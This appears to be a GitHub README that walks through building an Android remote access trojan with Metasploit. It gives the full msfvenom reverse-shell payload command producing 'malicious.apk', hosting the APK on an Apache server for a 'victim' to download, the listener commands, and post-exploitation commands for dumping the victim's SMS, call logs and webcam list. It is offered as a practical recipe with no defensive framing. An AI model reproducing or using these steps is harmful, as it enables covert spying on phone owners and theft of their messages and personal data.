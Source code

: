 # RAT-for-android
A Guide for making you own RAT(Remote access tool) for android with the help of msfconsole.

# Requirment to create your own RAT.
1.Kali linux
2.metaspolit framework
3.Apache2

# Steps to create RAT(Remote access tool)

1. Ensure that your system is upto date.
   (sudo apt update && sudo apt upgrade -y)

2. Install apache2 in your system.
   (sudo apt install apache2)
![WhatsApp Image 2025-01-02 at 8 18 26 PM](https://github.com/user-attachments/assets/7a05e6a3-130c-4166-9722-b39d56ca3a5e)
![WhatsApp Image 2025-01-02 at 8 19 11 PM](https://github.com/user-attachments/assets/f3c586d5-d138-4236-b3ba-2fc5b7cc4c53)

3. After installing you need to enable and start apache2 server.
   (sudo systemctl start apache2),(sudo systemctl enable apache2)
   
  ![WhatsApp Image 2025-01-02 at 8 22 12 PM](https://github.com/user-attachments/assets/e79ab4ab-95fd-4036-a629-ad5aaf41b1b4) 
  ![WhatsApp Image 2025-01-02 at 8 23 06 PM](https://github.com/user-attachments/assets/22d2955e-c1dd-4f15-ac2b-5f4b0b65be02)

4. Verify that apache2 is running or not.
 (sudo systemctl status apache2)
![WhatsApp Image 2025-01-02 at 8 24 19 PM](https://github.com/user-attachments/assets/70dfab6d-b595-486b-abda-166a7b2b57af)
![WhatsApp Image 2025-01-02 at 8 24 39 PM](https://github.com/user-attachments/assets/559183fa-6e1f-4f59-9840-3e9f85f0ad6d)

5. If you have firewall enable in you system you need to add rule in firewall for apache2.
   (sudo ufw allow 'Apache Full')

6. You wil get you apache2 server folder at (/var/www/html/)

7. Now you have successfully created your apache2 server you can vist you index page of you server at
   (http//{your-ip}/index.html)

8. Next step is to create payload for you RAT apk.

9. We are using msfvenom for creating payload.
    (msfvenom -p android/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=<port> R > malicious.apk).

    
   ![Screenshot 2025-01-02 191802](https://github.com/user-attachments/assets/3e9ed813-a821-4079-b78f-e03817f94de2)

10. LHOST: Your IP address (use ifconfig to find it).  
     LPORT: A port number for listening (e.g., 4444).  
     malicious.apk: The name of the APK file created.
![Screenshot 2025-01-02 191825](https://github.com/user-attachments/assets/26b29ecf-5f1e-451c-83f4-61132521c0ab)

11. After creating apk you can upload it to you server show that anyone with you link can download or you can share apk any way to victim device.

    (mv malicious.apk /var/www/html/) for moving apk to server.

12. Now open msfconsole to monitro the apk and perform task on it on victim device.
![Screenshot 2025-01-02 193021](https://github.com/user-attachments/assets/192ce1fd-543d-4fc8-add0-7d01b71a9550)
![Screenshot 2025-01-02 193046](https://github.com/user-attachments/assets/d072d315-4dfc-49c9-9d1e-21bdd957e387)

# Steps to connect to the paylod in victim device

sudo msfconsole  

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST {your-ip}

set LPORT {port}

exploit

13. Hit enter to exploit make sure you have successfully install the payload to the victim device.
![Screenshot 2025-01-02 193214](https://github.com/user-attachments/assets/34c56c34-e7d3-4306-891c-24bbdea74026)

14. It will get connect to victim device now you can have access to it file manager,sms,calllogs,sysinfo,camer,etc.
![Screenshot 2025-01-02 193448](https://github.com/user-attachments/assets/82ba145d-a55d-4233-a6d7-54962bff0814)
![Screenshot 2025-01-02 193458](https://github.com/user-attachments/assets/942e9f88-17c3-4501-af78-e9713cbc193c)

15. once connection is successfull try using (dump_sms for sms ,dump_calllog for call logs ,webcam_list , sysinfo for system info, ls to list dir)
![Screenshot 2025-01-02 193517](https://github.com/user-attachments/assets/c42653cf-0695-4f88-8549-3041b24862b4)
![Screenshot 2025-01-02 193535](https://github.com/user-attachments/assets/babd95e8-5496-4bac-bb62-8ab251baf7e2)
# Sms output
![Screenshot 2025-01-02 204049](https://github.com/user-attachments/assets/b0c6d2cd-8ae0-4946-b9fc-f0a42fc0cdf2)
